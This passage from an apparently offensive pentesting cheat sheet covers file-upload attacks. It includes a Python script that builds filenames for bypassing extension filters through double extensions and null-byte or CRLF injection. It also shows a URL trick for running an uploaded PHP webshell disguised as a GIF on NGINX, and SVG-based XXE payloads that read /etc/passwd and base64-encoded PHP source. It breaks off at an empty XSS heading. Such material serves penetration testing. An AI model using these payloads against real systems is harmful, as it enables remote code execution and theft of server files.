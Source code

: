 **Wordlist generator:**

```python
#!/usr/bin/env python3
with open("wordlist.txt", "w", encoding="UTF-8") as f:
    for e in ['.php', '.php3', '.php4', '.php5', '.php7', '.php8', '.pht', '.phtm', '.phtml', '.phar', '.phpt', '.phps']:
        # Different extensions
        f.write(f"s{e}\n")
        # Double extension
        f.write(f"s.gif{e}\n")
        f.write(f"s{e}.gif\n")
        # Character injection
        for c in ['%20', '%0a', '%00', '%0d%0a', '%0d0a', '\\x20', '\\x0a', '\\x00', '\\x0d0a', '\\x0d\\x0a', '/', './', '.', '…', ':']:
            f.write(f"s{e}{c}.gif\n")
            f.write(f"s{c}{e}.gif\n")
            f.write(f"s.gif{e}{c}\n")
            f.write(f"s.gif{c}{e}\n")
```

Use the wordlist for upload and GET-request fuzzing. 

❗❗❗ Successfull upload do not always mean the file was written correctly. ❗❗❗

#### Execute php-shell on NGINX after upload with wrong file-extension

 - Given a PHP webshell was uploaded as shell.gif on an NGINX server, the script can be run in PHP conext by adding `/shell.php&c=pwd` after the filename - a full URL-example would be:  
`https://pentest-experts.com/upload/shell.gif/shell.php?c=pwd`

#### XXE via SVG files

Reading files based on path:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Reading PHP sourcecode

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Output the Base64 encoded version of the file index.php.

A vulnerable file-viewer within a website could be attacked with other document types as `docx`, `pdf`, etc.

#### XSS via SVG files
